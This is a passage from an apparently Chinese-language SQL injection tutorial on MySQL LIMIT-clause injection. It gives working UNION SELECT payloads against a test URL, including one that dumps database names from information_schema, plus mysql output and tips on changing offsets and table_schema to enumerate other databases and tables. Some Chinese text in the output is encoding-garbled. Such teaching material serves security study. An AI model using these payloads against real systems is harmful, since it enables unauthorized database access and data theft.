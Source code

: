 ## 0x04 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库



web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 0,3;

数据库语句: select * from tdb_goods limit 0,2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 0,3;

```plain
mysql> select * from tdb_goods limit 0,2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 0,3;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | information_schema              | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
3 rows in set (0.00 sec)
```

## 0x05 爆表名

注意: table_schema=xxx 修改为其他库会查出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表

